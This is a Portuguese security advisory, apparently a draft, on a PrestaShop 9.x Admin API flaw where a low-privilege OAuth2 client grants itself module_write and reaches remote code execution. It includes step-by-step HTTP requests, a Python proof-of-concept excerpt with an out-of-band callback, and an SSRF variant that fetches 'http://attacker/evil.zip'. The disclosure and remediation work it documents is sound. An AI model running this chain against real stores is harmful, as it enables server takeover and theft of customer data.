







← ../ prestashop-admin-api-scope-privesc
chu@antisec:~/research$ cat prestashop-admin-api-scope-privesc
prestashop 9.x — autoescalada de escopo oauth2 na admin api → rce
resumo: a admin-api (oauth2,
client_credentials) permite que um client de baixo privilégio se conceda escopos que não possui. a operação de criar/editar api clients — guardada apenas pelo escopoapi_client_write— grava no client um arrayscopestotalmente controlado pelo chamador, sem verificar o que ele já detém. um token que só tinhaapi_client_writecria um client commodule_write, emite um token para ele e chega a rce (instalar módulo = php rodando comowww-data), takeover de contas de clientes (customer_write) e ssrf full (upload-source). afeta 9.0.0–9.2.0; ≤ 8.2.x não afetadas. sem sessão de admin envolvida — uma credencial de integração vazada basta.
o bug
a checagem de delegação que não existeo prestashop 9 traz uma nova admin api em /admin-api, construída sobre
api platform 3, oauth2 (client_credentials) e uma camada de comandos cqrs. cada operação
é atrelada a um ou mais escopos no formato {entity}_{operation} —
product_read, module_write, e por aí vai. numa instalação padrão do
9.1.x/9.2.x a api já vem ativa de fábrica e só é exigida sobre https.
por design, o confinamento é aplicado em dois pontos: o servidor oauth2 limita cada token à própria
lista de escopos armazenada do client no momento da emissão, e um listener confere o escopo exigido
pela operação a cada request. o mecanismo é sólido. o defeito é que a única operação que
define a lista de escopos de um client — POST /admin-api/api-clients e
PATCH /admin-api/api-clients/{id} — é guardada apenas por
api_client_write, um escopo comum e atribuível, e ninguém verifica se o chamador
detém os escopos que está gravando. cwe-269 clássico: improper privilege management
(gestão inadequada de privilégios).
// src/Core/Domain/ApiClient/Command/EditApiClientCommand.php:94
public function setScopes(?array $scopes): self
{
if (count($scopes) !== count(array_filter($scopes, 'is_string'))) {
throw new ApiClientConstraintException('Expected list of non empty string for scopes', ...);
}
$this->scopes = $scopes; // no check against the CALLER's own scopes
return $this;
}dois detalhes pioram a situação em vez de salvá-la. primeiro, os escopos submetidos são
validados a jusante contra o catálogo de escopos instalados (#[InstalledApiResourceScope]),
então só escopos reais e instalados podem ser atribuídos — mas nenhuma camada confere
se o chamador os detém. essa checagem de delegação ausente é o bug inteiro.
segundo, o corpo da request é desnormalizado direto sobre o comando cqrs (um ObjectNormalizer
sem ALLOW_EXTRA_ATTRIBUTES => false, sendo o próprio comando o tipo de input), então o
array scopes do json chega intacto em setScopes() — um sumidouro de
mass-assignment de livro didático, cwe-915.
no próximo pedido de token, o ScopeRepository::finalizeScopes() limita os escopos
solicitados à lista armazenada do client — exatamente a lista que o atacante acabou de reescrever —
então a escalada é honrada, e daí em diante toda checagem de module_write passa.
cadeia de ataque
api_client_write → www-datamodule_write é execução de código por design: instalar um módulo prestashop
significa extrair um arquivo dentro do diretório modules/ na raiz web e carregar a classe
php dele, e o php executa statements de topo e o construtor imediatamente. o module manager ainda tem
hard-coded uma permissão para qualquer api client carregando module_write. a cadeia são
quatro requests:
client de integração admin api host prestashop
(api_client_write) │ │
│ │ │
│ POST /admin-api/access_token │ │
│ scope=api_client_write ─────────►│ token T0 (baixo privilégio) │
│ │ │
│ POST /admin-api/api-clients │ │
│ scopes=[module_write,…] ────────►│ sem checagem de delegação: │
│ ◄──────── 201 {secret} ───────────│ escopos persistidos como enviados │
│ │ │
│ POST /admin-api/access_token │ │
│ scope=module_write ─────────────►│ token T1 — finalizado contra a │
│ │ lista reescrita pelo atacante │
│ POST /admin-api/modules/ │ │
│ upload-archive Bearer T1 ──►│── unzip em modules/ ───────────────►│
│ │ require() → o php executa │
│ ◄──────── uid=1000(www-data) ────────── execução de código ───────────│
alvo abaixo: uma instalação limpa e padrão do prestashop 9.2 sobre https real, toda
request passando pelo burp. ponto de partida: um client provisionado para uma integração de baixa
confiança, com o escopo único api_client_write. a loja em si não é tocada — o ataque vive
inteiramente na admin api dela.

passo 1 — um token com o único escopo que temos.
POST /admin-api/access_token HTTP/1.1
Content-Type: application/x-www-form-urlencoded
grant_type=client_credentials&client_id=lowpriv&client_secret=<SECRET>&scope=api_client_write
api_client_write.passo 2 — a vulnerabilidade primária: reescrever o conjunto de escopos do nosso
próprio client. o servidor responde 200 e ecoa de volta.
PATCH /admin-api/api-clients/1 HTTP/1.1
Authorization: Bearer <token from step 1>
Content-Type: application/json
{"scopes":["api_client_write","module_write","customer_write"]}
HTTP/1.1 200 OK
{ ... "scopes":["api_client_write","module_write","customer_write"] ... }
api_client_write reescreve o próprio conjunto de escopos; http 200 ecoando module_write + customer_write.passo 3 — emitir um token novo; o finalizeScopes agora concede os
escopos autoatribuídos, e o jwt decodificado prova que a fronteira de privilégio foi cruzada.
POST /admin-api/access_token
grant_type=client_credentials&client_id=lowpriv&client_secret=<SECRET>&scope=module_write%20customer_write
{ "aud":"lowpriv", "scopes":["is_authenticated","module_write","customer_write"] }
passo 4 — o mesmo upload de módulo é rejeitado para o token de baixo privilégio e aceito para o escalado: um antes/depois limpo num único endpoint. o php do módulo plantado roda no load e a saída do comando volta out-of-band.
POST /admin-api/modules/upload-archive (bearer low-priv) → 403 {"detail":"Invalid scope."}
POST /admin-api/modules/upload-archive (bearer escalated) → 201 {"technicalName":"pocmod…"}
# the module's php runs on load; output captured out-of-band:
RCE @ host :: uid=1000(www-data) gid=1000(www-data) groups=1000(www-data)

a variante upload-source ({"source":"http://attacker/evil.zip")
faz o próprio servidor buscar o arquivo — ssrf completo alcançando serviços internos e metadata de cloud —
e depois executa o módulo buscado. customer_write chega ao
POST /admin-api/customers para criar ou editar qualquer cliente com uma senha escolhida pelo
atacante.
poc
só em lab · enxutoapenas biblioteca padrão, sem dependências; toda request ao alvo passa por um proxy interceptador e o script se recusa a rodar sem ele. enxuto, só as partes que importam — o script completo acompanha o advisory. rode apenas contra uma instância que seja sua.
#!/usr/bin/env python3
# poc.py — prestashop admin api: oauth2 scope self-escalation → rce (>= 9.0.0)
# stdlib only. all target traffic goes through burp (default 127.0.0.1:8080);
# the script exits if the proxy listener is unreachable.
def jwt_scopes(token):
p = token.split(".")[1]; p += "=" * (-len(p) % 4)
return json.loads(base64.urlsafe_b64decode(p)).get("scopes", [])
def get_token(c, cid, secret, scope):
st, body = c.form("/admin-api/access_token", {
"grant_type": "client_credentials", "client_id": cid,
"client_secret": secret, "scope": scope})
try: return json.loads(body).get("access_token")
except Exception: return None
# stage 0 — a token with the only scope we hold
t0 = get_token(c, args.client_id, args.client_secret, "api_client_write")
# stage 1 — PRIMARY VULN: self-grant scopes we do not hold (create-based:
# api_client_write also reaches POST /api-clients, no numeric id needed)
esc_cid = "escpoc_%d" % int(time.time())
st, body = c.json_req("POST", "/admin-api/api-clients", {
"clientId": esc_cid, "clientName": "escpoc", "enabled": True,
"lifetime": 3600,
"scopes": ["api_client_write", "module_write", "customer_write"]}, token=t0)
new_secret = json.loads(body).get("secret") # 201 — nobody checked caller authority
t1 = get_token(c, esc_cid, new_secret, "module_write customer_write")
if "module_write" in jwt_scopes(t1):
print(">>> PRIVILEGE ESCALATION CONFIRMED: api_client_write -> module_write")
# stage 2 — module_write = code execution: before/after on one endpoint.
# the planted module writes its command output out-of-band on load.
zipb = build_module_zip("pocmod", proof, args.cmd, args.callback)
st, body = c.multipart("/admin-api/modules/upload-archive", t0, "archive", "poc.zip", zipb)
print(" low-priv upload -> HTTP", st) # 403 Invalid scope.
st, body = c.multipart("/admin-api/modules/upload-archive", t1, "archive", "poc.zip", zipb)
print(" escalated upload -> HTTP", st) # 201 = the module's php ran
# --callback serves a built-in listener: ">>> RCE CONFIRMED" as the web user
uid=1000(www-data).impacto
o que o atacante leva- execução remota de código como o usuário do php→ www-data, via module_write
- takeover de conta de cliente→ customer_write: criar/editar qualquer cliente, senha à escolha
- ssrf completo pelo upload-source de módulo→ serviços internos, metadata de cloud — depois rce
- persistência durável→ client autoconcedido com escopos completos, webservice key legada, tokens que não podem ser revogados
- comprometimento total da loja→ catálogo, pedidos, pii de clientes, configuração de pagamento
quem está exposto: qualquer loja 9.x em que uma integração, app ou parceiro detenha
api_client_write — e no 9.1.x/9.2.x a admin api já vem ligada de fábrica, então o único
pré-requisito é essa uma credencial. ≤ 8.2.x não é afetado (sem gestão de clients via api). verificado
dinamicamente em instalações limpas e padrão do 9.1.4 (última estável) e 9.2.0; a escalada em si também
provada no 9.0.0. como a api e o código que ela executa compartilham da mesma autoridade
www-data, isso pontua cvss 3.1 8.8 high
(AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H) — defensível como 9.9 critical com
S:C se o passo de escopo-para-código-no-so for tratado como travessia de fronteira. uma loja
que concede a uma integração o escopo api_client_write, de aparência inofensiva, está na
prática concedendo execução de código no host — uma exposição material gdpr/lgpd.
timeline de disclosure
coordenada · em andamento- 2026-06-06 → 07descoberta + validação em lab encontrado no 9.2.0, varredura de versões pelo 9.0.0–9.2.0, revalidado end-to-end numa instalação limpa e padrão sobre https real — todo o tráfego pelo burp.
- 2026-06-08reportado (privado)
report coordenado para o time de segurança do prestashop
(
security-core@prestashop.com) com o advisory, referências da causa raiz e orientação de remediação, conforme a política de segurança do projeto. - pendentetriage do vendor
registro e confirmação de ghsa/cve — o identificador nesta página segue
reservedaté o vendor atribuir um. - pendentefix liberado + cve atribuído versões corrigidas no momento do report: nenhuma. fixes saem apenas na release mais recente, pela política do projeto; ainda não existe release corrigida.
- pendentedivulgação pública
esta página está completa e preparada, mas segue marcada
draftaté o fix ficar público — aí o detalhamento completo acima entra no ar sem censura.
remediação
para devs + lojistasse você constrói uma api que distribui capacidades
- adicione a checagem de delegação: ao criar ou editar um client, rejeite qualquer escopo solicitado que o chamador autenticado não detém ele próprio ou não está autorizado a delegar. validar apenas contra o catálogo de escopos é necessário, mas não suficiente.
- nunca deixe um principal atribuir privilégios que ele não detém. considere guardar a gestão de clients atrás de um escopo administrativo dedicado que ele próprio não possa autoatribuir.
- desative mass assignment:
ALLOW_EXTRA_ATTRIBUTES => falsee/ou dtos de input explícitos com uma allow-list, em vez de vincular o corpo da request direto a um comando. - torne as checagens de escopo deny-by-default: uma operação que não declara escopos não deve ser alcançável por token nenhum, e um lint de ci deve falhar qualquer operação sem um conjunto de escopos não vazio.
- respeite
enabledao resolver clients e implemente revogação de token de verdade — um client desabilitado não pode continuar emitindo tokens funcionais. - trate a instalação de módulos como uma capacidade separada e de alta confiança: escopo dedicado, inalcançável por autoconcessão, e considere assinatura de módulos.
se você opera uma loja prestashop 9.x hoje
- trate
api_client_writecomo um privilégio administrativo e não o entregue a integrações de terceiros até que uma release corrigida seja lançada. - audite
ps_api_client.scopesatrás de clients cujo conjunto de escopos excede o que quem os criou pretendia — especialmente qualquer client de baixa confiança que agora detenhamodule_write,customer_writeouwebservice_key_write— e rotacione tudo o que você mesmo não criou. - guarde segredos de integração num secret manager, não numa planilha chamada
senhas-final-v3. o client secret é mostrado uma vez na criação e depois vive na config da integração; ele vaza por git, logs de ci, screenshots e tickets de suporte. - alerte em
PATCH/POSTpara/api-clientsque mudemscopes, especialmente quando seguidos de um upload de módulo. essa única linha de log pega essa classe inteira. - atualize para a release corrigida assim que ela estiver disponível e reaudite cada api client depois — escopos autoconcedidos antes do patch não se retiram sozinhos.